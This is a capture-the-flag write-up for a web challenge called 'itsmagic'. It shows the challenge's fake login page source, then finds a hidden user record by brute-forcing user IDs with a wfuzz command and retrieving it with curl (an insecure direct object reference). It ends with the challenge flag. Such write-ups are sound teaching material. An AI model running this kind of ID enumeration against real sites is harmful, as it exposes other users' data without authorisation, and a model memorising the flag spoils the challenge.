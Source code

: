```yaml
---
layout: menu
---
```


![itsmagic (100 pts)](./screenshots/itsmagic.png)

---

## CHALLENGE INFO
- __CHALLENGE LINK__: https://wandshop.tghack.no/
- __LANDING PAGE__:

  ![homepage](./screenshots/itsmagic_home.png)

  - __Page Source__:
    ```html
    <html>

    <head>
      <title>itsmagic</title>
      <script type="text/javascript" src="script.js"></script>
      <link rel="stylesheet" href="style.css">
    </head>

    <body onload="init()" class="orangebackground">
      <header>
        <img class="logo" src="/pictures/itsmagic_2.png" alt="itsmagic logo">
      </header>
      <div class="login-page">
        <div class="form">
          <form class="login-form">
            <input type="text" id="username" placeholder="username" />
            <input type="password" id="password" placeholder="password" />
            <input type="button" id="myBtn" value="Login" onclick="login()" />
          </form>
        </div>
      </div>
      <div class="homecontainer">
        <img src="/pictures/orange_itsmagic.jpg">
      </div>
    </body>

    </html>
    ```
  - __*/script.js*__
    ```js
    const rooturl = window.location.protocol+"//"+window.location.host+"/";

    function init() {
        ...
    }

    function login() {
        // Nothing interesting here, just trying to make task seem like 
        // it has a real login page in a hacky way
        var username = document.getElementById('username').value;

        var request = new XMLHttpRequest();
        request.open('GET', rooturl + 'login/' + username);

        request.onload = function () {
            var data = JSON.parse(this.response);
            const userid = data.userid;

            if (request.status == 200 && userid != null)
                window.location.href = rooturl + "home/" + userid;
        }

        request.send();
    }

    function home() {
        // Just selecting grades randomly to illustrate that each user 
        // has their own grades (giving the feel of a real website)

        ...

        request.send();
    }

    ```

    __Notes__:
    - The __login form__ is bogus
    - The grades generated after "logging in" is randomly generated
    - The default __userid__ after "logging in" is 1338

- __ASSUMED OBJECTIVE__: Find the __userid__ where the flag is hidden

---

## Step 1 : Find the __userid__ with the flag

1. Run __*wfuzz*__:
   ```console
   wfuzz -z range,0-9999 https://itsmagic.tghack.no/home/FUZZ

   # ==================================================================
   # ID   Response   Lines      Word         Chars          Payload
   # ==================================================================
   # ...
   # 001330:  C=200     43 L       74 W          936 Ch    "1329"
   # 001332:  C=200     43 L       74 W          936 Ch    "1331"
   # 001334:  C=200     43 L       74 W          936 Ch    "1333"
   # 001333:  C=200     43 L       74 W          936 Ch    "1332"
   # 001335:  C=200     43 L       74 W          936 Ch    "1334"
   # 001337:  C=200     43 L       74 W          936 Ch    "1336"
   # 001336:  C=200     43 L       74 W          936 Ch    "1335"
   # 001338:  C=200      0 L       10 W           76 Ch    "1337"
   # 001339:  C=200     43 L       74 W          936 Ch    "1338"
   # 001340:  C=200     43 L       74 W          936 Ch    "1339"
   # ...
   ```
   __Note__:
   - __userid 1337__ has a different content length than the rest.

2. Check __userid 1337__:
   ```console
   curl https://itsmagic.tghack.no/home/1337
   ```
   ```html
   Congrats, y0ur s0 1337! </br>TG19{Direct object reference might B insecure!}
   ```

---

## FLAG : __TG19{Direct object reference might B insecure!}__
